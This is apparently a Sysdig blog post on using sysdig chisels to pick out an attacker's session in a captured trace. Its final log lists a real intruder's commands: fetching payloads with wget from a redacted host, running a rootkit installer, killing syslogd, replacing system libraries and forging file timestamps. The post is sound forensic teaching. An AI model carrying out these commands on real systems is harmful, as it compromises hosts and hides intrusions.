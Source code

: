 ```yaml
---
ID: 231
post_title: 'Fishing for Hackers (Part 2): Quickly Identify Suspicious Activity With Sysdig'
author: Loris Degioanni
post_excerpt: ""
layout: post
permalink: >
  https://sysdigrp2rs.wpengine.com/blog/fishing-for-hackers-part-2/
published: true
post_date: 2014-07-02 09:00:21
---
```

In our recent [Fishing for Hackers][1] blog post, we explored a sysdig trace of an actual system breach from an actual malicious attacker. Based on the interest in that post, and the great feedback that we've received since publishing it, we decided to spend some time making the forensics features of [sysdig][2] even better. Updates in the [latest release][3] include: 
*   A new chisel, list_login_shells
*   Improvements to the spy_users chisel
*   Additional useful filter fields In this post, I'd like to show you how to use these new features to investigate your trace files with even more ease, and quickly identify that prime catch. 

## Sorting Through the Fishing Net

Other than in trivial situations, the commands executed on a unix system are launched from multiple login sessions, each of which can either be strictly interactive, or run scripts, or a mix of the two. From the forensics point of view, it’s important to quickly uncover the “interesting” sessions, separating them from noisy scripts - this is usually nontrivial and time intensive.

The revamped spy_users chisel provides better support for this kind of investigation. Let’s apply it to the trace file captured for the original Fishing for Hackers blog post.

<pre>sysdig -r trace.scap.gz -c spy_users
4893 01:39:38 root) /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc
update-motd.d
4893 01:39:38 root) run-parts --lsbsysinit /etc/update-motd.d
4893 01:39:38 root) /bin/sh /etc/update-motd.d/00-header
4893 01:39:38 root) uname -o
4893 01:39:38 root) uname -r
4893 01:39:38 root) uname -m
4893 01:39:38 root) /bin/sh /etc/update-motd.d/10-help-text
4893 01:39:38 root) grep -qs -server
4893 01:39:38 root) uname -r
4893 01:39:38 root) /bin/sh /etc/update-motd.d/50-landscape-sysinfo
4893 01:39:38 root) grep -c ^processor /proc/cpuinfo
4893 01:39:38 root) bc
4893 01:39:38 root) cut -f1 -d /proc/loadavg
4893 01:39:38 root) /bin/date
4893 01:39:38 root) /usr/bin/python /usr/bin/landscape-sysinfo
4893 01:39:38 root) sh -c /sbin/ldconfig -p 2&gt;/dev/null
4893 01:39:38 root) /bin/sh /sbin/ldconfig -p
4893 01:39:38 root) /sbin/ldconfig.real -p
4893 01:39:38 root) sh -c /sbin/ldconfig -p 2&gt;/dev/null
4893 01:39:38 root) /bin/sh /sbin/ldconfig -p
4893 01:39:38 root) /sbin/ldconfig.real -p
…
</pre>

You can notice a couple of things:

*   Each line begins with a number: that’s the pid of the first shell of the session, in other words a unique ID for the session. That way, it’s possible to follow a specific session even when several of them are active at the same time.
*   The executed commands are indented, based on the following rule: when a new shell is executed, the indentation increases. This is useful because, typically, a shell that executes another shell is running a script. Thus, the indentation clearly separates real users’ interactions from the scripts they execute.

Since interesting activity usually happens at higher levels in the tree (ie. less indentation), spy_users now includes an optional argument to filter the output based on the indentation level. For example

<pre>sysdig -r trace.scap.gz –c spy_users 0</pre>

will only show activity in an original starting shell, while

<pre>sysdig -r trace.scap.gz –c spy_users 1</pre>

will show activity in that shell and its children.

## Finding the Prime Catch

Still, even with this improved readability, finding the needle in the haystack can be challenging, especially on busy machines. Fortunately, the new list_login_shells chisel comes to our rescue. In the simplest case, this chisel shows the ids of all the login sessions detected in the trace file. Let’s try it!

<pre>sysdig.exe -r trace.scap.gz -c list_login_shells
All shells:
7791
7588
7604
5580
7628
7632
7601
7573
5322
7625
7737
7773
7660
7658
7655
7598
7610
7619
7574
7654
5582
7622
5052
7581
7584
4893
7591
5578
5459
5574
7616
7595
7607
5564
7575
5575
7613
7631
</pre>

Quite a lot of activity! 38 sessions, to be precise. We know one of them contains a successful hacker penetration, but which one is it?

This post has been edited.

list_login_shells has two optional parameters. The first one makes it possible to search for sessions that contain the specified command name, while the second one does the same but with the command arguments.

In the context of detecting attacks, interesting sessions tend to contain commands like ssh and wget, and arguments that include /etc or /bin. In this case, I’m going to search for the execution of tar, assuming it’s a good indication that someone is trying to install something on my system:

<pre>sysdig.exe -r g.scap -c list_login_shells tar
Shells containing tar:
5459</pre>

Much better, this time I get only one session! Now I can use the proc.loginshellid sysdig filter field to restrict the output of spy_users.

<pre>sysdig.exe -r trace.scap.gz -c spy_users proc.loginshellid=5459
5459 01:47:10 root) groups
5459 01:47:10 root) uname -s
5459 01:47:10 root) sed -ne /^# START exclude/,/^# FINISH exclude/p /etc/bash_completion
5459 01:47:10 root) ls /etc/bash_completion.d
5459 01:47:10 root) sed s,x,x,
5459 01:47:10 root) sed s,x,x,
5459 01:47:10 root) sed s,x,x,
5459 01:47:10 root) sed s,x,x,
5459 01:47:10 root) sed s,x,x,
5459 01:47:10 root) sed s,x,x,
5459 01:47:10 root) sed s,x,x,
5459 01:47:10 root) sed s,x,x,
5459 01:47:10 root) sed s,x,x,
5459 01:47:10 root) sed s,x,x,
5459 01:47:11 root) sed s,x,x,
5459 01:47:11 root) sed s,x,x,
5459 01:47:11 root) /bin/sh /usr/bin/lesspipe
5459 01:47:11 root) basename /usr/bin/lesspipe
5459 01:47:11 root) dirname /usr/bin/lesspipe
5459 01:47:11 root) cd /usr/bin
5459 01:47:11 root) dircolors -b
5459 01:47:11 root) mesg n
5459 01:48:13 root) cd /usr/sbin
5459 01:48:15 root) mkdir .shm
5459 01:48:17 root) cd /usr/sbin/.shm
5459 01:48:18 root) wget XXX/l.tgz
5459 01:48:20 root) tar zxvf l.tgz
5459 01:48:20 root) gzip -d
5459 01:50:40 root) ps -x
5459 01:50:43 root) ps -x
5459 01:50:47 root) w
5459 01:50:50 root) passwd
5459 01:52:21 root) cd /usr/sbin
5459 01:52:21 root) wget XXX/rk.tar
5459 01:52:24 root) tar xvf rk.tar
5459 01:52:24 root) rm -rf rk.tar
5459 01:52:24 root) cd /usr/sbin/rk
5459 01:52:24 root) /bin/bash ./root whathefuckyouwant 1157
5459 01:52:24 root) sleep 5
5459 01:52:29 root) tar zxf mafixlibs
5459 01:52:29 root) gzip -d
5459 01:52:29 root) whoami
5459 01:52:29 root) cd /usr/sbin/rk
5459 01:52:29 root) sleep 1
5459 01:52:30 root) killall -9 syslogd
5459 01:52:30 root) date +%S
5459 01:52:30 root) uname -n
5459 01:52:30 root) mv bin/lib/libproc.a /lib/
5459 01:52:30 root) mv bin/lib/libproc.so.2.0.6 /lib/
5459 01:52:30 root) /bin/sh /sbin/ldconfig
5459 01:52:30 root) /sbin/ldconfig.real
5459 01:52:31 root) cd /usr/sbin/rk/bin
5459 01:52:31 root) md5sum
5459 01:52:31 root) touch -acmr /bin/ls /etc/sh.conf
...
</pre>

Look at how clean this trace is. A hacker catch in all its splendor. Including the download of multiple malicious files and the execution of scripts with names such as whathefuckyouwant. And it keeps going on and on.

## Conclusion

Hopefully these new features make it even easier for you to explore users' activity within your sysdig traces (whether malicious or not!). In order to leverage the features shown in this post, make sure to update to the latest version of sysdig (instructions [here][4]). And as always, if you have comments, questions, or proposals for improvements, please let us know in the comments on Hacker News using the link below.

 

Thanks for reading our “Fishing for Hackers” blog post! We’re actually looking to create something security-specific with Sysdig and were looking for companies to brainstorm with. Do you have time to meet me next week to discuss? [Contact us here][5] and we’ll set up a meeting with Loris, the creator of sysdig.

 [1]: https://sysdigrp2rs.wpengine.com/fishing-for-hackers/
 [2]: http://www.sysdig.org/
 [3]: https://sysdigrp2rs.wpengine.com/announcing-sysdig-0-1-84/
 [4]: https://github.com/draios/sysdig/wiki/Sysdig%20Update%20and%20Uninstall
 [5]: http://goo.gl/forms/hvno47KgnS
